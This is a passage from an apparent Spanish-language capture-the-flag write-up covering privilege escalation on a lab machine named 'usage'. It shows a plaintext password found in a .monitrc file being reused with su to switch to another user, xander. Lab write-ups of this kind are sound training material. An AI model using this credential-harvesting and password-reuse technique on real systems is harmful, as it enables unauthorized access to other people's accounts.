 ## Escalada de privilegios

En la misma carpeta personal del usuario, hay ficheros que llevan de nombre `monit`, viendo el `.monitrc` vemos algo curioso:

```bash
dash@usage:~$ cat .monitrc
#Monitoring Interval in Seconds
set daemon  60

#Enable Web Access
set httpd port 2812
     use address 127.0.0.1
     allow admin:3nc0d3d_pa$$w0rd

#Apache
check process apache with pidfile "/var/run/apache2/apache2.pid"
    if cpu > 80% for 2 cycles then alert


#System Monitoring 
check system usage
    if memory usage > 80% for 2 cycles then alert
    if cpu usage (user) > 70% for 2 cycles then alert
        if cpu usage (system) > 30% then alert
    if cpu usage (wait) > 20% then alert
    if loadavg (1min) > 6 for 2 cycles then alert 
    if loadavg (5min) > 4 for 2 cycles then alert
    if swap usage > 5% then alert

check filesystem rootfs with path /
       if space usage > 80% then alert
```

También podemos ver que existe otro usuario en el sistema:

```bash
dash@usage:~$ ls -la /home
total 16
drwxr-xr-x  4 root   root   4096 Aug 16  2023 .
drwxr-xr-x 19 root   root   4096 Apr  2 21:15 ..
drwxr-x---  6 dash   dash   4096 Aug 16 22:07 dash
drwxr-x---  4 xander xander 4096 Apr  2 20:25 xander
```

Probando esta contraseña con ese usuario, podremos acceder como él

```bash
dash@usage:~$ su xander
Password: 
xander@usage:/home/dash$ cd
xander@usage:~$
```
